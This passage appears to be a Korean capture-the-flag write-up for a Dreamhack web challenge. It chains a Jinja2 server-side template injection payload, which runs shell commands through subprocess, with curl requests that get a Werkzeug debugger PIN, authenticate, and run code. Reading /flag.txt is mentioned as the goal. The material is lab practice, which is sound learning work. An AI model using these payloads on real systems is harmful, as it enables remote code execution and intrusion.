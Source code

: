 ```
http://host3.dreamhack.games:19145/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[398]('curl%20127.0.0.1:8000/keygen/a?__debugger__=yes&cmd=printpin&s=PU1SKs7zR9IOYtG3qy3k%27,shell=True,stdout=-1).communicate()%20%7D%7D
```

접속하게 되면 `Internal Server Error`가 발생한다. 해당 내용을 깊이 확인해보니 우리는 `curl` 명령어를 사용하면서 매개변수를 `a?` 이와 같이 넘기게 된다.

하지만 URL에서 1차적으로는 `host3.dreamhack.games`의 매겨변수로 판단하게 되어 위와 같은 에러가 발생한다.

`?` 문자를 사용하지 않고 GET 메소드를 넘기기 위해서 `-G -d` 옵션을 추가하면 해결이 가능하다.

`curl -G -d "__debugger__=yes&cmd=printpin&s=PU1SKs7zR9IOYtG3qy3k" http://127.0.0.1:8000/keygen/1`

이를 통해서 `printpin`를 하게 되면 정상적으로 작동하는 것을 확인할 수 있고 이후 Pin code 인증을 시도하는데 인증 이후 Cookies 값을 반환 받아야 한다.

하지만 현재 XSS와 같은 스크립트 삽입을 통한 Cookies 탈취가 불가능하고 현재 사용되고 있는 프로세스의 권한은 `user` 이기에 디렉토리 쓰기가 쉽지 않다.

하지만 리눅스 환경에서 누구나 쓰기가 가능한 `/tmp` 디렉토리에 Cookies 값을 저장하여 확인하면 가능하다. 이 옵션은 `-c /director/file` 을 통해 Cookies 값을 생성할 수 있다.

따라서 아래와 같은 코드를 이용하여 인증과 Cookie 생성을 동시에 진행한다.


```
curl -G -c /tmp/cookies.txt -d "__debugger__=yes&cmd=pinauth&pin=143-054-970&s=PU1SKs7zR9IOYtG3qy3k" http://127.0.0.1:8000/keygen/1
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/a36cf906-11a3-49f1-ba92-b5c0bd8c0c2e" width = 850>
</p>

* **인증 완료**

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/dea728df-9b55-484d-aacf-d526c8e5bab3" width = 850>
</p>

* **`cat /tmp/cookies.txt`로 생성한 쿠키 값 확인**

이후 테스트용 `print(1234)` command를 전송해보도록 하겠습니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/e029e786-94f8-41ed-854a-b8ea3463b5a9" width = 850>
</p>

```
curl -G -b "__wzd1269d62cc39251a92215=1702019287|8d0c77c4160d" -d "__debugger__=yes&cmd=print(1234)&frm=139805351218192&s=PU1SKs7zR9IOYtG3qy3k" http://127.0.0.1:8000/keygen/1
```

입력한 Command와 결과가 정상적으로 출력되는 것을 확인 할 수 있다.

이후 `__import__("os").popen("cat%2b/flag.txt").read()`를 진행하려고 하였으나 `', "`에 대한 문자가 사라지는 것을 확인할 수 있다.

여기서 너무나도 많은 시간을 쏟고 풀이가 복잡하게 되었다. 띄워쓰기 및 `+, ', "` 등등 특수문자에 대해서 제대로 진행되지 않아 문자열을 하나하나 ASCII 코드로 파싱하여 문자열을 추가하고 `join`하는 방식으로 진행하여 최종 Exploit이 보기 힘들 수준이다.
